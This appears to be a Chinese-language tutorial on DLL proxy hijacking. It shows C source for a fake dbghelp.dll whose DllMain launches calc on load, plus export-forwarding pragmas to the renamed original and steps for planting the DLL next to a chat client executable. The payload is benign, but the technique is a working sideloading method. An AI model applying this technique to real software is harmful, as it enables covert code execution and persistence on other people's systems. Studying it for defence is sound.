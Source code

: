 ![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUCrxmaXFe6WxjNqD5BlyUt3oKCCu9a3rGxxJsRWhuINWHOBCzbATsEHTUFJOpxqj4TKaASFzDWFQ/640?wx_fmt=png)

我们在入口函数中写一些恶意代码，然后新建个 dll 给他编译下

  
要在头文件中的 pch.h 中加入 # include <stdlib.h>

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUCrxmaXFe6WxjNqD5BlyUtNNCicEESxtC9X5MFE82B9S5iaOLvwYrlmTvLZzqZHNswNibyibGrUyLgicA/640?wx_fmt=png)

```
# include "pch.h"
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 导出函数
# pragma comment(linker, "/EXPORT:SymGetOmapBlockBase=dbghelporg.SymGetOmapBlockBase,@1")
# pragma comment(linker, "/EXPORT:DbgHelpCreateUserDump=dbghelporg.DbgHelpCreateUserDump,@2")
# pragma comment(linker, "/EXPORT:DbgHelpCreateUserDumpW=dbghelporg.DbgHelpCreateUserDumpW,@3")
.......
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
  if (dwReason == DLL_PROCESS_ATTACH)
  {
    DisableThreadLibraryCalls(hModule);
    system("calc");
  }
  else if (dwReason == DLL_PROCESS_DETACH)
  {
  }

  return TRUE;
}
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUCrxmaXFe6WxjNqD5BlyUtoUPxwnblyDnFMDLn33XIsqxb5UgQrSJ8DPxzHWIMu3Ge6V0NdOknoA/640?wx_fmt=png)

然后将原本的 dbghelp.dll 改名为 dbghelporg.dll  
将我们刚刚编译好的 dll 改名为 dbghelp.dll  
然后直接运行 weichat.exe

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUCrxmaXFe6WxjNqD5BlyUtPXo6UJJaYQttnibQibIhTQKicVOEd1gY1tsyge5h1AL1SsCYFh5K0TO7Q/640?wx_fmt=png)
